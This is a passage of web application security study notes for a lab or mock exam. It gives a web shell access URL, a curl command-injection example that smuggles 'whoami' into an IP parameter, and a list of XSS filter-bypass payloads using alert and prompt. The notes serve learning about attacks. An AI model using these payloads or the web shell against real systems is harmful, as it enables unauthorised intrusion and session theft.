 ^Access via: `upload/shell.php?cmd=whoami`

### Tools

- **Burp Repeater** to test chained commands
- **curl**:

```bash
curl 'http://10.0.0.2/commandexec/example1.php?ip=127.0.0.1|whoami'
```

---

## Cross-Site Scripting (XSS)

Injection of JavaScript into pages viewed by other users.  
**[XSS Mock Exam Notes](https://github.com/ryancranie/webappsec/blob/main/lab/XSS.md)**

### Theory Recap

**Types**:

- Reflected: immediate response (in URL)
- Stored: persistent, stored in DB
- DOM-based: JS reads malicious input

**Impacts**:

- Session hijack
- phishing
- defacement

### Payloads from Notes

- Pop-up Script: `<script>alert('XSS')</script>`
- Case bypass: `<sCrIpt>alert('XSS')</SCRipt>`
- Stripping workaround: `<<script>script>alert('XSS')<</script>/script>`
- No `<script>` allowed: `<img src=/ onerror="alert('XSS')">`
- `alert()` blocked: `<script>prompt('XSS')</script>`
- Pre-existing `<script>` tag: `</script><script>alert('XSS')</script>`
- HTML encoding bypass: `';alert('XSS');//`
- Input form injection: `"/><script>alert('XSS')</script>`
- DOM XSS (hash fragment): `#<script>alert('XSS')</script>`

### Tools

- **Burp Suite** (check rendered response)

- **JS testing tools**
    - `alert()`
    - `prompt()`
    - `confirm()`

## Access Control Vulnerabilities
